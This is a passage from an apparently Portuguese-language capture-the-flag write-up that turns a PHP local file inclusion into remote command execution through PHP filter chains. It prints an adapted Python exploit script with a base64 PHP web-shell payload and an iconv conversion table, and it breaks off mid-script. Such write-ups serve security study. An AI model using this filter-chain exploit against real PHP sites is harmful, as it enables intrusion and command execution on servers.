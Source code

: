 O include do php executa código, então só precisamos encontrar algum arquivo que podemos escrever e fazer um ataque de poisoning, porém não consegui encontrar nenhum arquivo nessas condições.

Outra maneira de executar código com include é através dos filtros do php, seguindo as instruções do artigo [LFI2RCE via PHP Filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters) conseguimos executar comandos no host:
<img src="/img/aratuctf/Pasted image 20220911185423.png" />

Script depois das adaptações:
```python
import requests

url = "https://inclusive-policy.boita.tech"
file_to_use = "/etc/passwd"
command = "/getFlag"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
```